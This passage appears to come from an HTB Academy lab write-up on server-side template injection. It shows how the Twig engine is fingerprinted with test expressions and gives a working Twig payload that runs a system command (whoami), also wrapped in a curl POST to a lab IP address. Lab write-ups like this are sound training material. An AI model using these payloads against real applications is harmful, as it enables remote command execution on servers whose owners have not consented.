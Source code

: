 I tested some payload but only `{{7*7}}` and `{{7*'7'}}` worked.

![image](https://github.com/offensivecyber03/htbacademy/assets/71892943/7ee66ad0-4a2f-4165-afaa-a77f00558222)

The application successfully evaluated this expression as well. According to PortSwigger's diagram, we are dealing with either a Jinja2 or a Twig template engine.

There are template engine-specific payloads that we can use to determine which of the two is being utilized. Let us try with the below Twig-specific one:
```bash
{{_self.env.display("TEST")}}
```
![image](https://github.com/offensivecyber03/htbacademy/assets/71892943/c7d9620b-fb69-4b12-aa64-45dce1c7f7d1)

The Twig-specific payload was evaluated successfully. A Twig template engine is being utilized on the backend. 
For an extensive list of template engine-specific payloads, please refer to the following resources:

1) https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection
2) https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

## Payload for command injection:
```bash
{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("whoami")}}
```
## Payload via curl:
```bash
curl -X POST -d 'name={{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("whoami")}}' http://10.10.10.10:4444
```

